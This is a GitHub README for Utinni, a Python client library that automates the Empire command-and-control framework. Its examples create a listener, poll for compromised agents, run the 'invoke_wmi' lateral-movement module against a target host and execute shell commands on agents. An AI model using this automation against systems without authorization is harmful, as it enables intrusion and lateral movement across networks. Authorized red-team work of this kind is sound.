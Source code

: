 <p align="center">
  <img src="https://user-images.githubusercontent.com/5151193/107455866-b6778d80-6b0c-11eb-9e7d-14221e2aa582.png" alt="Utinni" height="300"/>
</p>

# Utinni

An async Python client library for Empire's RESTful API 

(Only works with [BC-Security Empire fork](https://github.com/BC-SECURITY/Empire))

## Installing

`pip3 install utinni`

## Examples

Simple example showing basic usage:

```python
import asyncio
from utinni import EmpireApiClient

async def main():
    # Create client instance
    empire = EmpireApiClient(host="localhost", port="1337")

    # Login to Empire's RESTful API
    await empire.login("username", "password")
    print("* Logged into Empire")

    # Create a listener
    await empire.listeners.create(listener_type="http", name="Utinni", additional={"Port": 8443})

    print("* Waiting for agents...")
    while True:
        # Poll for new agents every 1 sec
        for agent in await empire.agents.get():

            #Print some basic info on the new agent
            print(f"+ New agent '{agent.name}' connected: {agent.domain}\\{agent.username}")

            # Execute a module on the agent
            module_output = await agent.execute(
                    "powershell/lateral_movement/invoke_wmi",
                    options={
                        "ComputerName": "targethost",
                        "Listener": "Utinni",
                    },
                )

            print(f"++ Executed invoke_wmi module on agent '{agent.name}'")
            print(f"++ Module output: {module_output}")

        await asyncio.sleep(1)

# Start the event loop
asyncio.run(main())
```

Example with background tasks:

```python
import asyncio
from utinni import EmpireApiClient

async def agent_poller(empire):
    # Poll for new agents every 1 sec
    print("* Waiting for agents...")
    while True:
        for agent in await empire.agents.get():
            #Print some basic info on the new agent
            print(f"+ New agent '{agent.name}' connected: {agent.domain}\\{agent.username}")

            # Do whatever you want with the agent object here and it won't block the main thread
            # In this example executing we're executing a shell command
            cmd_output = await agent.shell("dir")

            print("++ Executed shell command")
            print(f"++ Output: {cmd_output}")

        await asyncio.sleep(1)

async def main():
    # Create client instance
    empire = EmpireApiClient(host="localhost", port="1337")

    # Login to Empire's RESTful API
    await empire.login("username", "password")
    print("* Logged into Empire")

    # Create a listener
    await empire.listeners.create(listener_type="http", name="Utinni", additional={"Port": 8443})

    # Start the 'agent_poller' coroutine as a background task 
    agent_poller_task = asyncio.create_task(agent_poller(empire))

    # Do more stuff here as this thread isn't blocked.
    available_empire_modules = await empire.modules.get()

    # Wait for the agent_poller_task to complete
    # in this example it won't ever finish since it's in a infinite loop.
    await agent_poller_task

# Start the event loop
asyncio.run(main())
```

## FAQ

**1. Why?**

This was originally made for the [DeathStar](https://github.com/byt3bl33d3r/DeathStar) project, the author then realized it would be useful as a stand-alone library.

**2. Why are there no sync APIs?**

Cause it doesn't make sense. 99% of all use cases you're going to want to call/execute/query/do multiple things at the same time.
